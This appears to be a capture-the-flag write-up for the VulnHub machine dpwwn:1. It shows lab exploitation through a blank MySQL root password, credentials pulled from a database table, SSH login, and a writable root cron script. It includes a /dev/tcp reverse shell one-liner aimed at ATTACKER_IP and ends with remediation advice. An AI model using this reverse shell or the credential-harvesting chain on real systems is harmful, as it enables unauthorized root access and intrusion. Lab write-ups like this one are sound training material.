



# dpwwn: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Root Flag** | dpwwn-01—FLAG.txt (in /root/) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/dpwwn-1,342/) |

## Attack Summary

nmap → MySQL blank root password → credentials from `ssh.users` table → SSH as `mistic` → writable cron script (`logrot.sh`) → reverse shell → root

## Methodology

1. Network discovery
2. Port scan (22, 80, 3306 open)
3. MySQL enumeration with blank root password
4. Credential extraction and SSH login
5. Writable cron script exploitation → root shell

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
```



---

## Step 2: Port Scan

```bash
nmap -A 192.168.1.101
```

Open ports: 22 (SSH), 80 (HTTP), 3306 (MySQL).



---

## Step 3: MySQL Enumeration

MySQL root accepts a blank password. The `ssh` database contains user credentials:

```bash
mysql -h 192.168.1.101 -u root -p
# Press Enter at password prompt
```

```sql
show databases;
use ssh;
show tables;
select * from users;
```

Credentials recovered: **mistic : testP@$$swordmistic**



---

## Step 4: SSH Access and Cron Analysis

```bash
ssh mistic@192.168.1.101
# password: testP@$$swordmistic
```

Enumerate home directory and check crontab:

```bash
ls -la
cat logrot.sh
cat /etc/crontab
```

`logrot.sh` is a bash log-rotation script in the user's home directory. Root's crontab executes it periodically. The file is **writable** by `mistic`.


---

## Step 5: Reverse Shell via Cron

Set up a listener on the attacker machine:

```bash
nc -lvp 1234
```

Overwrite `logrot.sh` with a reverse shell:

```bash
echo '0<&74-;exec 74<>/dev/tcp/ATTACKER_IP/1234;sh <&74 >&74 2>&74' > logrot.sh
```

Wait for cron to execute the script. A root reverse shell connects to the listener.

```bash
cd /root
cat dpwwn-01—FLAG.txt
```


---

## Lessons Learned

1. **MySQL with blank root password** — unauthenticated access to a database server is critical; enables credential harvesting for SSH
2. **Storing credentials in a database** — even encrypted credentials in a database accessible without authentication provide no real protection
3. **Writable cron scripts** — scripts executed by privileged cron jobs must not be writable by unprivileged users
4. **Cron-based escalation** — a common Linux privesc path: find a root-owned cron job that runs a user-writable script

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| MySQL blank root password | Set a strong root password and bind MySQL to localhost only |
| Credentials in database | Use application-level credential storage with proper encryption |
| Writable logrot.sh | Set permissions to `root:root 700` on all root-executed scripts |
| Cron job misconfiguration | Audit `/etc/crontab` and root's crontab for writable script references |
